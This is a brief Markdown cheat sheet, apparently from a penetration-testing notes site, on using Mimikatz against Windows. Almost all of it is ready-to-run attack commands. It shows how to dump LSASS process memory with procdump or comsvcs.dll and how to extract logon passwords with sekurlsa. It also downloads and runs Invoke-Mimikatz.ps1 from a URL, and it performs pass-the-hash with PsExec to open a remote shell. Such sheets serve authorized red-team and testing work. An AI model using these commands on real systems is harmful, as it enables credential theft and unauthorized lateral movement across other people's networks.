 ```yaml
---
layout: default
title: Mimikatz
tags:
    - certificates private keys
    - credentials
    - in memory
    - kerberos tickets
    - local security authority subsystem service
    - LSASS
    - pass-the-hash
    - passwords
    - procdump
    - windows
---
```

# Mimikatz
### Offline
#### Dump LSASS
```powershell
procdump.exe -ma lsass.exe <output path>  # use -r flag to avoid reading lsass by dumping a clone
.\rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump 624 <output path> full  # uses native comsvcs.dll
```
- Alternatively can use task manager (Processes > lsass.exe > Create Dump File)

#### Extracting Passwords
```shell
sekurlsa::minidump <dump path>
sekurlsa::logonpasswords
```

### On Target Machine
#### PowerShell Version ([Invoke-Mimikatz.ps1](https://github.com/clymb3r/PowerShell/blob/master/Invoke-Mimikatz/Invoke-Mimikatz.ps1))
In-memory
```powershell
Invoke-WebRequest -UseBasicParsing <url> -Verbose
```

Save to disk
```powershell
Invoke-WebRequest -UseBasicParsing <url> -OutFile Invoke-Mimikatz.ps1 -Verbose
```

```powershell
Get-Help Invoke-Mimikatz
.\Invoke-Mimikatz -DumpCreds
```

#### Extracting Passwords
```shell
privilege:debug
sekurlsa::logonPasswords
```

#### Pass-the-Hash
```powershell
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlm hash>  # Hash from previous password extraction
PsExec.exe \\<domain> cmd.exe  # Spawn cmd prompt on given domain
```